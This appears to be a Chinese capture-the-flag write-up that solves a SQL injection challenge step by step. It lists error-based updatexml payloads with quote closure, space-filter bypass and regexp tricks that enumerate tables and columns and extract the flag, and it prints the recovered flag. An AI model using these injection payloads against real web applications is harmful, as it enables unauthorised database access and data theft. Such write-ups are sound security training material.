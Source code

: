![在这里插入图片描述](https://img-blog.csdnimg.cn/5c233cf3b4ce45689b1b3c1b743dde62.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/325ee26911c743cea91288c4e748605e.png)
双引号闭合，故构造语句(有空格过滤)
`aaa“||updatexml(1,concat(0x7e,database(),0x7e),1)#`

![在这里插入图片描述](https://img-blog.csdnimg.cn/4ac606bf82934f4f8961167ea4f29e6c.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/2a0ba0c9e7cd42c8bff9cc729c41eab7.png)
查一下表名
`aaa"||updatexml(1,concat(0x7e,(select(group_concat(table_name))from(information_schema.tables)where(table_schema=database())),0x7e),1)#`

![在这里插入图片描述](https://img-blog.csdnimg.cn/17ae517ddfbd41cd8ab321b33aaabf03.png)
`aaa"||updatexml(1,concat(0x7e,(select(group_concat(column_name))from(information_schema.columns)where(table_name='flag')),0x7e),1)#`

![在这里插入图片描述](https://img-blog.csdnimg.cn/3ebb158a0ee245bebca7e3438b7227d5.png)
`aaa"||updatexml(1,concat(0x7e,(select(flag)from(web_sqli.flag)),0x7e),1)#`
![在这里插入图片描述](https://img-blog.csdnimg.cn/d1f8916a8ffc48ba9787eff6a2570351.png)
看看users表有无flag
`aaa"||updatexml(1,concat(0x7e,(select(group_concat(column_name))from(information_schema.columns)where(table_name='users')),0x7e),1)#`
![在这里插入图片描述](https://img-blog.csdnimg.cn/adcfa8860880497f82301d8dd7cff01b.png)
盲猜没显示全，right、left不能用，换regexp()
`aaa"||updatexml(1,concat(0x7e,(select(group_concat(column_name))from(information_schema.columns)where(table_name='users')&&(column_name)regexp('^r')),0x7e),1)#`
![在这里插入图片描述](https://img-blog.csdnimg.cn/e9970f0d8fbe4400a8c31afcac46e143.png)


查一下flag
`aaa"||updatexml(1,concat(0x7e,(select(group_concat(real_flag_1s_here))from(users)),0x7e),1)#`
![在这里插入图片描述](https://img-blog.csdnimg.cn/268e0ec59c3b438fb05a3ed0ec4ca3d3.png)
一堆杂结果，正则匹配内容
`aaa"||updatexml(1,concat(0x7e,(select(group_concat(real_flag_1s_here))from(users)where(real_flag_1s_here)regexp('^flag')),0x7e),1)#`

![在这里插入图片描述](https://img-blog.csdnimg.cn/7c93c71db7224370baa011cb3a90c202.png)
`aaa"||updatexml(1,concat(0x7e,(reverse(select(group_concat(real_flag_1s_here))from(users)where(real_flag_1s_here)regexp('9578'))),0x7e),1)#`
![在这里插入图片描述](https://img-blog.csdnimg.cn/bfe14496bb09487fadd51154337e44e7.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/a86f8e23a6ab406a814f9003217de7f7.png)
flag{d9887829-d110-4cec-9578-970715946271}

# [CISCN2019 华北赛区 Day1 Web1]Dropbox
[参考博客](https://blog.csdn.net/weixin_44077544/article/details/102844554)
